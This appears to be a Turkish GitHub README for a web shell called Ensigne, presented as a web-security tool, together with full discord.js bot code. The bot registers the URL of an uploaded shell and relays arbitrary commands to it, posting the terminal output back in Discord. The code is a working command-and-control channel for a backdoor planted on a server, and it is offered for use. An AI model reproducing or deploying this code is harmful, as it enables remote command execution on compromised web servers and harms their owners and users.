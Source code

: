 Ensigne 2025 Web Güvenliği İçin Yazılmış Açık Kaynak Kodlu Bir Shelldir.

İletişim İçin Discord: ensigne

![image](https://github.com/user-attachments/assets/33c11505-acfc-492d-9cb3-3c48b5496d62)


Sistem ayrıca discord.js uyumludur. Bot oluşturup sohbete **.!backlink <url(yüklediğiniz shellin linki)> ** yaptıktan sonra **.!ensignedoor <komut>** ile discord üzerindende shelli kontrol edebilirsiniz.

**İŞTE DİSCORD JS KODLARI**

```
const { Client, Intents } = require('discord.js');
const fetch = require('node-fetch');
const client = new Client({ intents: [Intents.FLAGS.GUILDS, Intents.FLAGS.GUILD_MESSAGES] });

const token = 'YOUR_BOT_TOKEN';  // Bot tokenınızı buraya yazın

const userBackendUrls = {};

client.once('ready', () => {
    console.log('Bot hazır!');
});

client.on('messageCreate', async (message) => {
    if (message.author.bot) return; 

  
    if (message.content.startsWith('.!backlink')) {
        const url = message.content.replace('.!backlink ', '').trim();
        if (url) {
            userBackendUrls[message.author.id] = url;  
            message.reply(`Backend URL'si başarıyla ayarlandı: ${url}`);
        } else {
            message.reply('Lütfen geçerli bir URL girin.');
        }
    }

    
    if (message.content.startsWith('.!ensignedoor')) {
        const userId = message.author.id;
        const url = userBackendUrls[userId];

        if (!url) {
            return message.reply('Önce backend URL\'sini ayarlamanız gerekiyor. Lütfen .!backlink <URL> komutunu kullanın.');
        }

        const command = message.content.replace('.!ensignedoor ', '');  
        try {
            const response = await fetch(url, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/x-www-form-urlencoded',
                },
                body: new URLSearchParams({
                    command: command
                })
            });

            const data = await response.text();  
            message.reply(`Terminal Çıktısı:\n${data}`);  

        } catch (error) {
            console.error('Komut gönderme hatası:', error);
            message.reply('Bir hata oluştu, lütfen tekrar deneyin.');
        }
    }
});

client.login(token);
```
